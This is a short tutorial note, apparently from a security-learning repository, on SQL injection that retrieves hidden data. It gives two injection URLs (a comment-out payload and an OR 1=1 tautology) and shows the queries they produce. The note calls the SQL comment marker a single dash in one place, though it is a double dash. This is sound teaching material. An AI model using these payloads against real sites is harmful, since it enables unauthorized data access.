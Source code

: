 # Retrieving hidden data

# Application Query

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

# Attack

## Display Unreleased Product

```
https://insecure-website.com/products?category=Gifts'--
```

Attack Query Result

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

The double-dash sequence `-` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment.

## Return ALL items

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Attack Query Result

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since `1=1` is always true, the query will return all items.

# Lab

[**Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**](./lab-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data.md)

